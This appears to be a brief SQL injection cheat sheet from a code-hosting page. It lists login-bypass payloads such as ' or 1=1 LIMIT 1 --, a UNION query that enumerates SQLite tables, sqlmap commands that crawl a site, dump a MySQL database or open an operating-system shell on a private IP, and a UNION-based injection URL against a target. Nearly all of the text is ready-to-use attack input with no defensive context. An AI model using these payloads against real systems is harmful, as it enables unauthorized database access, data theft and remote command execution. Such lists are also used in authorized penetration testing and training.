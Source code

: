 *SQL stands for Structured Query Language*


Testing for Bypasses: 

' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -


### SQLite3

UNION SELECT NULL as CAMPO1, tbl_name, NULL as CAMPO2 FROM sqlite_master


# SQLMAP

## sqlmap crawl  
sqlmap -u http://172.21.0.0 --crawl=1

## sqlmap dump database  
sqlmap -u http://172.21.0.0 --dbms=mysql --dump

## sqlmap shell  
sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell

# SQLI

Testing for a row: 

- http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8

